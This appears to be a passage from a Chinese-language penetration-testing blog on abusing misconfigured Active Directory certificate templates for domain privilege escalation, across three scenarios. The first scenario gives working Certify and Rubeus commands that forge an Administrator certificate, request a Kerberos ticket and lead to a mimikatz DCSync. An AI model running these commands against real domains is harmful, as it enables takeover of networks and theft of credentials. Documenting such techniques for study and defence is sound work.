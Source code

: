 ### 场景一

使用证书进行域提权条件比较苛刻，但这并非是不存在的，我们只需要利用管理员对模板的错误配置。

证书中的subjectAltName(SAN)用于指定证书使用者的身份，但通常这个字段值是直接从AD当中获取，如果证书在其AD对象的

mspki-certificate-name-flag属性中指定请求者是可以指定SAN，即CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT标志，则可以自定义SAN。

![image-20240104141943425](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104141943425.png)

如上图，证书模板开启这个选项，并且满足上篇文章所提的低权限注册，不需要审核等条件，我们就可以伪造管理员申请证书了。

搜索可用证书

```
Certify.exe find /vulnerable
```

![屏幕截图 2024-01-04 143655](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/屏幕截图 2024-01-04 143655.png)

通过指定SAN伪造Administrator申请证书

```
Certify.exe request /ca:ECHANGE2013.loser.com\loser-DC-CA /template:TESTMP /altname:LOSER\Administrator
```

转换并用来申请TGT

```
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx
```

![image-20240104144810306](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104144810306.png)

导入该票据后，我们就可以通过mimikatz进行dcsync

![image-20240104145739899](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104145739899.png)

### 场景二

与场景一类似，只是利用了扩展为任何目的和子CA。没有CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT标志，就无法向拟定SAN，但是这两个扩展本身来讲就比较危险。

攻击者可以将具有 Any Purpose EKU 的证书用于任何目的，这包括客户端身份验证、服务器身份验证、代码签名等。相比之下，攻击者可以使用 SubCA EKU 的证书用于任何目的也是如此，但也可以使用它来签署新证书。因此，使用 SubCA 证书，攻击者可以在新证书中指定任意 EKU 或字段。

如果 `TAuthCertificates` 对象不信任从属 CA（默认情况下不会信任），则攻击者无法创建可用于域身份验证的新证书。但是可以用来签发ADFS等服务，ADFS使用现有的 Active Directory 凭据提供 Web 登录

### 场景三

对于请求代理这个扩展的滥用，我们一共需要两组证书模板，一组定义了证书申请代理OID（1.3.6.1.4.1.311.20.2.1），可以代表其他主体申请其他证书模板，另一组需要允许低权限用户使用注册代理证书代表另一个用户来请求证书，并且该模板定义了一个允许域身份验证的 EKU。

![image-20240104160132560](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104160132560.png)

![image-20240104160154104](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104160154104.png)
